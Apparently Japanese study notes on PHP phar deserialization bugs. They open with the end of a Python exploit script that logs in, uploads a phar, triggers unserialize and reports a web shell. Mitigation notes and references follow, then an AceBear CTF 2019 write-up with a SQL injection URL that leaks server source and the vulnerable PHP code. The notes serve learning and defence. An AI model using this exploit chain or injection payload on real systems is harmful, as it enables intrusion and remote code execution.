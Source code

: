 ```python
    """
    global c, pwner_user
    if len(sys.argv) != 3:
        print "(+) usage: %s <target> <username:password>" % sys.argv[0]
        print "(+) eg: %s 172.16.175.143 admin:admin123" % sys.argv[0]
        sys.exit(-1)
    t = "http://%s" % sys.argv[1]
    c = sys.argv[2]
    usr = c.split(":")[0]
    pwd = c.split(":")[1]
    c = {}
    print "(+) targeting: %s" % t
    if we_can_login(t, usr, pwd, get_csrf_login(t)):
        print "(+) logged in!"
        csrf = get_csrf(t, c)
        if we_can_upload(t, csrf):
            print "(+) uploaded phar!"
            if we_can_leak_phar_name(t, csrf):
                print "(+) leaked phar name %s.jpg!" % leaked
                if we_can_trigger_unserialize(t, csrf):
                    print "(+) triggered a write!"
                    print "(+) shell at: %s/?c=phpinfo();" % (t)

if __name__ == '__main__':
    main()
```
- 発見方法   
アップロードする機能があって、かつ`file_exitst()`の中にユーザーの入力がValidation無しで入ることが問題なので、`file_exits`の中に入る値を逆算していけば見つけられそう？   
- 対策   
ユーザーの入力に`phar`,`:`,`://`などが入っていることが問題。拡張子だけチェックしても子の場合はどうしようもない。   
ここら辺のValidationをする部分がないのが問題。   
- 参考資料   
https://hackerone.com/reports/407552   
https://blog.ohgaki.net/php-phar-remote-code-execution-vulnerability   
`phar`の脆弱性についての情報。かなりわかりやすい。   
https://blog.usejournal.com/diving-into-unserialize-phar-deserialization-98b1254380e9   
`phar`のDeserializeの脆弱性について。   
https://medium.com/@knownsec404team/extend-the-attack-surface-of-php-deserialization-vulnerability-via-phar-d6455c6a1066   
`phar`の脆弱性のWordpressでの具体例。   

## phar / getimagesize / custom gadget (AceBear CTF2019 best band of asia)
https://ctf.yeuchimse.com/acebear-security-contest-2019-duudududduduudstore-image-service-best-band-of-asia-web-100/  
https://movrment.blogspot.com/2019/04/acebear-ctf-2019-web-category.html  
- **entrypoint**  
まず`http://3.0.183.241/index.php?controller=image&act=detail&id=1111+union+select+'/var/www/html/index.php'+-+-`でSQL Injectionでソースをリークするとこから？？？？  
`controller_image.php`  
以下で明らかにSQL Injectionできる。また、`str_replace`で記号を置換してるから、`../`みたいなのは無理そう。  
```php
public function detail(){    
    if(isset($_GET["id"])){
        $image = $this->model->fetch_one("SELECT filename FROM photos WHERE id=".$_GET["id"]);
        $yummy = ["..","//","<",">"];
        $filename = str_replace($yummy," ",$image["filename"]);
        @readfile($filename);
    }
}
```
ファイルをアップロードする箇所はこんな感じ?  